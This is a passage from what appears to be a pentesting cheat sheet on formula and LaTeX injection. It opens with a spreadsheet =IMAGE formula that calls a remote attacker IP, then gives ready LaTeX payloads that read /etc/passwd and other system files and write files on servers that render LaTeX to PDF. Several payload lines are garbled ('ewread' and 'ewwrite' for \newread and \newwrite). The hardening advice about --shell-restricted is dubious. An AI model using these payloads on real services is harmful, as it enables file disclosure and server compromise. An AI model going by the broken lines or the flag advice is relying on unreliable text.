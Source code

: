 ```
=IMAGE("https://[remote IP:Port]/images/srpr/logo3w.png")
```

## LaTeX Injection

Usually the servers that will find on the internet that **convert LaTeX code to PDF** use **`pdflatex`**.\
This program uses 3 main attributes to (dis)allow command execution:

* **`--no-shell-escape`**: **Disable** the `\write18{command}` construct, even if it is enabled in the texmf.cnf file.
* **`--shell-restricted`**: Same as `--shell-escape`, but **limited** to a 'safe' set of **predefined** \*\*commands (\*\*On Ubuntu 16.04 the list is in `/usr/share/texmf/web2c/texmf.cnf`).
* **`--shell-escape`**: **Enable** the `\write18{command}` construct. The command can be any shell command. This construct is normally disallowed for security reasons.

However, there are other ways to execute commands, so to avoid RCE it's very important to use `--shell-restricted`.

### Read file <a href="#read-file" id="read-file"></a>

```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Read single lined file

```bash
ewread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

#### Read multiple lined file

```bash
ewread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

### Write file <a href="#write-file" id="write-file"></a>

```bash
ewwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

